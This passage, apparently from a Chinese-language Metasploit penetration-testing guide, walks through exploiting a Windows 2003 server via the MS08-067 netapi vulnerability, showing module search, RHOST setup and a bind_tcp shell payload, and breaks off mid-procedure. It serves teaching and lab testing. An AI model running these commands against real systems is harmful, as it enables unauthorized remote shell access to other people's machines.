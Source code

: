 ```
现在我们已经在目标机器上建立了一个 shell 连接，我们可以通过命令提示符完全访问目标机器。现在我们可以继续使用我们可以使用的常见 DOS 命令来探索目标机器。一些基本操作包括目录列表、复制文件和文件夹、创建用户代理等。

# 对 Windows 2003 服务器进行渗透测试

在上一篇文章中，我们分析了如何使用`dcom`利用来引起缓冲区溢出并利用我们的 Windows 目标。在这篇文章中，我们将专注于一个类似但逻辑上不同的环境。Windows 2003 服务器是微软最广泛使用的企业级操作系统之一。在这篇文章中，我们将看到如何利用 Windows 2003 服务器。更新版本的 Windows 2003 服务器已经修补了`dcom`漏洞，所以在这里不起作用。因此，我们将在这篇文章中尝试不同的漏洞。我们将使用`netapi32.dll`漏洞。首先，我们将分析利用过程，然后分析这个漏洞的原因。让我们开始我们的渗透测试。

## 准备工作

首先，让我们启动`msfconsole`并快速扫描目标。建议您按顺序执行所有步骤，以确保加强基础知识。下一步将与我们在前两个示例中讨论的相同。唯一的区别在于使用利用。

## 如何做...

要对 Windows 2003 服务器进行渗透测试，请按照以下步骤进行：

1.  让我们开始搜索`netapi`。这将列出 Metasploit 目录中与`netapi`相关的任何可用利用：

```
    msf > search netapi
    Matching Modules
    ================
    Name Disclosure Date Rank
    ---- --------------- ---- exploit/windows/smb/ms03_049_netapi 2003-11-11 good
    exploit/windows/smb/ms06_040_netapi 2006-08-08 good
    exploit/windows/smb/ms06_070_wkssvc 2006-11-14 manual
    exploit/windows/smb/ms08_067_netapi 2008-10-28 great 
    ```

正如我们所看到的，四个结果中，最后一个利用具有很高的评分。所以我们将优先使用这个利用。

1.  我们将设置`RHOST`作为我们的目标 Windows 2003 服务器：

```
    msf > use exploit/windows/smb/ms08_067_netapi
    msf exploit(ms08_067_netapi) > show options
    Module options (exploit/windows/smb/ms08_067_netapi):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    RHOST yes The target address
    RPORT 445 yes Set the SMB service port
    SMBPIPE BROWSER yes The pipe name to use (BROWSER, SRVSVC)
    Exploit target:
    Id Name
    -- ----
    0 Automatic Targeting
    msf exploit(ms08_067_netapi) > set RHOST 192.168.56.102
    RHOST => 192.168.56.102 
    ```

再次，`Id`值`0`表明我们不需要指定目标操作系统。

1.  一旦我们完成了利用加载过程，下一步将是设置有效载荷。我们将在目标机器上再次设置一个`tcp_bind` shell，就像我们之前讨论的那样。

```
    msf exploit(ms08_067_netapi) > set payload
    windows/shell/bind_tcp
    payload => windows/shell/bind_tcp
    msf exploit(ms08_067_netapi) > set LHOST 192.168.56.101
    LHOST => 192.168.56.101 
    ```
